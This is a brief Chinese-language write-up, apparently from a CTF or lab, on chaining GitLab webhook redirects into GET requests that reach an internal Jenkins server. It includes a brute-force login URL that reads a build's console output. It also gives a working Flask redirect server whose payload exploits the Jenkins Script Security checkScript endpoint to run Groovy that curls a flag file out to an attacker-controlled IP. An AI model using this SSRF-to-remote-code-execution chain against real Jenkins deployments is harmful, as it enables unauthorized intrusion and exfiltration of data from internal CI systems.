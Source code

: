 # 

Jenkins服务一般会在内网但是防火墙一般会设置允许SCM仓库的webhook去访文。但是webhook的请求都是post且http请求包的很大一部分内容都不可控。但是gitlab的post请求会遵循302跳转重定向，重定向后是get请求因此就构造出了get请求。利用这个get请求可以完成一些攻击。



爆破用户名密码并登录，利用from参数重定向到目标页面来获取目标页面的内容：

```url
http://jenkins.example-domain.com/j_acegi_security_check?j_username=admin&j_password=secretpass123&from=/job/prod_pipeline/1/consoleText&Submit=Sign+in
```

- 如果没有配置身份验证，我们可以让 GitLab Webhook 服务访问 CI 中的任何内部页面，捕获响应并将其呈现给我们。
- 如果配置了身份验证，我们可以尝试暴力破解用户，然后使用凭据访问任何内部页面



利用Get请求去打Jenkins的一些CVE漏洞。开一个服务设一个302跳转：

```python
from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/redirect', methods=['POST'])
def redi():
    return redirect('http://10.207.127.144:32810/?redirect_url=http%3A%2F%2Fjenkins%3A8080%2FsecurityRealm%2Fuser%2Fadmin%2FdescriptorByName%2Forg.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript%2FcheckScript%3Fsandbox%3Dtrue%26value%3Dpublic%20class%20x%20%7Bpublic%20x()%7B%22curl%20-X%20POST%20-d%20%40%2Fflag%20http%3A%2F%2F10.207.127.144:39475/%22.execute()%7D%7D',code=302)

if __name__ == '__main__':
    app.run(debug=True,host="0.0.0.0",port=31801)


```



webhook设置为`http://xxxxx/redirect`，即可实现get请求打内网的Jenkins